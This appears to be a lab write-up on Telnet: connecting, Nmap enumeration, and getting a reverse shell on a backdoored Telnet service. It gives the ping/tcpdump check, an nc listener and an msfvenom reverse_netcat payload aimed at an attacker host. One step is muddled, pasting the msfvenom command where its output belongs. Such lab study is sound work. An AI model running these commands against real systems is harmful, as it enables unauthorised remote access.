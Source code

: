 # Telnet

### What is it?

An **application protocol** that allows you to **connect** to and **execute commands** on a remote machine hosting a telnet server using a telnet client.

*Telnet has been replaced by SSH in most implementations since Telnet sends all messages in clear text with no encryption, no specific security mechanism.*

Connect using:
``telnet [ip] [port]``

## Enumerating Telnet

#### Port Scanning with Nmap

Without using -p- tag we get 0 open ports cos firewall. Use ``-Pn`` for stealth (will take longer tho).


## Exploiting Telnet

Telnet sends all communications over plaintext, lack of encryption.


#### CVE or Common Vulnerabilities and Exposures

We know from the enumeration stage:
  1. Poorly hidden telnet service
  2. backdoor
  3. username Skidy
  
Using this information to access telnet port, and use it to get full reverse shell.

### 1. Connecting to Telnet

``telnet [ip] [port]``

**Reverse shell**

-> A **shell** is a piece of code or program used to gain code or command execution on device.

-> A **reverse shell** is a type of shell where target machine communicates back to attacking machine.
  - The attacking machine has a listening port, receiving the connection and resulting in code or command execution.

First we check if what we're typing is being executed as system commands:

1. Start tcpdump listener on local machine - ``sudo tcpdump ip proto \\icmp -i eth0`` (if using openVPN use tun0 instead of eth0).
2. Ping from telnet session - ``.RUN ping 10.10.46.47 -c 1``

Received ping on listener so system commands executed on telnet session are working.

Generate reverse shell payload using msfvenom on local machine, this will generate and encode netcat reverse shell for us.

![image](https://user-images.githubusercontent.com/80155116/111870127-ba3de000-89e7-11eb-9b89-de7a2a8055d1.png)

Start netcat listener on local machine 

``nc -lvp 4444``

Copy paste the msfvenom payload and run it in telnet session

``.RUN msfvenom -p cmd/unix/reverse_netcat lhost=10.10.64.206 lport=4444 R``

Now we get this!!!

![image](https://user-images.githubusercontent.com/80155116/111870231-5962d780-89e8-11eb-8a41-59ce475e2f5e.png)

